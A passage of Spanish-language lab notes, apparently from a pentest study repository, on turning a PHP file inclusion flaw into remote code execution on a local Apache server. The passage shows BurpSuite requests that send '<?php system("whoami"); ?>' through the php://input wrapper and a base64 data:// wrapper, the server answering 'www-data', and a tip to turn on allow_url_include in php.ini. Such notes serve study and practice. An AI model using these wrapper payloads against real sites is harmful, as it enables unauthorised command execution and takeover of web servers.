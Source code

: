 ```xml
Sec-Fetch-Site: none

Sec-Fetch-User: ?1

Priority: u=4

Content-Type: application/x-www-form-urlencoded

Content-Length: 26



<?php system("whoami"); ?>
```

Resultado: obtenemos el comando `whoami` (www-data)

```xml
HTTP/1.1 200 OK

Date: Tue, 15 Apr 2025 20:49:16 GMT

Server: Apache/2.4.58 (Ubuntu)

Content-Length: 9

Keep-Alive: timeout=5, max=100

Connection: Keep-Alive

Content-Type: text/html; charset=UTF-8



www-data
```

Explicación: cambios el método GET por **POST**, introducimos el **wrapper php://input** y probamos ejecución de comandos con `<?php system("whoami"); >`

Problema: al enviar la petición en el repeat de BurpSuite no obteniamos la data ejecutada con `whoami`

Solución: `nano /etc/php/8.3/apache2/php.ini` --> ctrl+w (allow_url_include) el que aparece en Off lo ponemos en On --> `service apache2 restart` --> en BurpSuite con click derecho selenccionamos cambiar el método para pasar de POST a GET (para evitar errores de sistaxis al cambiarlo manualmente)

Acción 5: **wrapper data://text/plain;base64,** para RCE

```xml
GET /?filename=data://text/plain;base64,PD9waHAgc3lzdGVtKCJ3aG9taSIpOyA/Pg== HTTP/1.1

Host: localhost

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

DNT: 1

Sec-GPC: 1

Connection: keep-alive
```